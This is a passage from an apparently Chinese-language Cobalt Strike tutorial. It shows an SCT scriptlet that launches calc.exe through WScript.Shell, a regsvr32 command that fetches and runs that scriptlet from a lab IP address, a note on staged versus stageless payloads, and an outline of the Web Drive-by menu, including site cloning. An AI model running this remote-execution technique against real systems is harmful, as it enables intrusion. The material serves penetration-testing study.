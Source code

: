     # 或
    regsvr32 artifact.dll
    ```

    通过 sct 远程执行

    1.txt
    ```xml
    <?XML version="1.0"?>
    <scriptlet>
    <registration
    progid="Pentest"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">

    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("cmd /k calc.exe");
    ]]>

    </script>
    </registration>
    </scriptlet>
    ```

    打开 Arracks>Web Drive-by>Host File

    然后执行
    ```
    regsvr32 /u /n /s /i:http://192.168.141.143:80/payload.sct scrobj.dll
    ```

**Staged 和 Stageless 的区别**

前者的实际功能只是和 C2 建立连接并接收 Payload, 然后加载执行, 而 Stageless 直接省去了接收 Payload 的步骤. Stageless 生成除了的 Payload 都会比 Staged 类型的要大很多, 而且包含了特征明细

---

#### Web Drive-by

**Manage**

主要管理我们所创建的Payload以及各类PowerShell管理地址

**Clone Site**

克隆网站

![](../../../assets/img/Security/安全工具/CobaltStrike/52.png)
